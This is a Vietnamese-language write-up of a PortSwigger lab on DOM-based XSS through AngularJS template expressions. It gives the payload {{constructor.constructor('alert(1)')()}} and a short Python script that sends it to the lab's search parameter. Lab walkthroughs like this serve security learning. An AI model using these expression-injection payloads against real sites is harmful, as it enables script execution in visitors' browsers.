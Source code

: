 ![image](https://hackmd.io/_uploads/Hyc8rmP9p.png)

## 11. Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

link: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression

### Đề bài

![image](https://hackmd.io/_uploads/HJ4oIQvqp.png)

### Phân tích

- Lab này chứa lỗ hổng DOM-based XSS ở biểu thức AngularJS trong chức năng tìm kiếm. AngularJS là một thư viện javascript phổ biến, nó sẽ quét lấy nội dung của HTML nodes chứa thuộc tính ng-app (câu lệnh chỉ thị của AngularJS). Khi chị thỉ được thêm vào code HTML, ta có thể thực thi biểu thức javascript ở trong 2 dấu ngoặc nhọn: {{}}. Kĩ thuật này rất hữu ích khi dấu <> bị mã hóa. Để solve này thì mình cần phải thực thi tấn công XSS và thực thi câu lệnh alert
- mình đã tìm kiếm cách sử dụng hàm nào để bypass và thực hiện câu lệnh JS, và mình đã tìm thấy thứ này ở PayLoadAllTheThing

![image](https://hackmd.io/_uploads/BJ54w7DqT.png)

### Khai thác

- Sử dụng payload này, trang web đã bị XSS thành công: `{{constructor.constructor('alert(1)')()}}`

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a31000703cbf17984de50bd00f400a8.web-security-academy.net'

session = requests.Session()

payload = "{{constructor.constructor('alert(1)')()}}"

response = session.get(
    url + '/?search=' + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
```

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được lab này
